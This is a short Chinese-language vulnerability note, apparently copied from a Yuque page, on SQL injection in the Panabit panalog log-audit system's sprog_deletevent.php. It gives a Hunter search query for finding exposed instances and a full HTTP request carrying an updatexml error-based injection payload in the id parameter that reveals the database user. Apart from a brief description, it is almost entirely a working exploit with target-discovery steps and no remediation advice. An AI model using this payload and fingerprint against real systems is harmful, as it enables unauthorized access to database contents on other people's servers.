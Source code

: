 # panabit日志审计系统sprog_deletevent存在SQL注入漏洞

# 一、漏洞简介
panalog为北京派网软件有限公司，一款流量分析，日志分析管理的一款软件。panalog日志审计系统sprog_deletevent存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ Panabit panalog

# 三、资产测绘
+ hunter`app.name="Panabit 日志系统"`
+ 特征

![1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f.png](./img/NBje5ZQnkKxGETyn/1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f-759328.png)

# 四、漏洞复现
```java
GET /Maintain/sprog_deletevent.php?openid=1&id=1%20or%20updatexml(1,concat(0x7e,(select+user())),0)&cloudip=1 HTTP/1.1
Host: {hostname}
Cookie: PHPSESSID=h5inhsqh9heas1lovb1f5kd355
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1702202129097-d75320e4-8326-46f1-85ac-183a93a23400.png](./img/NBje5ZQnkKxGETyn/1702202129097-d75320e4-8326-46f1-85ac-183a93a23400-648104.png)

```java
GET /Maintain/sprog_deletevent.php?openid=1&id=1&cloudip=1 HTTP/1.1
Host: {hostname}
Cookie: PHPSESSID=h5inhsqh9heas1lovb1f5kd355
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1702203492043-58bc7c32-9f32-4a11-9ef5-5ba8e08312da.png](./img/NBje5ZQnkKxGETyn/1702203492043-58bc7c32-9f32-4a11-9ef5-5ba8e08312da-650390.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bsile5w0tmgnvcvi>